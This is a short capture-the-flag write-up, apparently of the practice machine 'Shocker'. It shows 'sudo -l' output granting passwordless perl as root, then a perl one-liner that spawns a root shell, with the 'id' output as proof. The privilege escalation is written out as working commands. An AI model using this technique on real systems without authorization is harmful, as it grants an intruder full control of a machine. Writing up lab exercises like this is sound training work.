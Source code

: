 # 15 - PrivEsc


# Sudo
```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Privilege escalation part is straightforward. Sudo allows perl to run as root without password.

# Root
```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```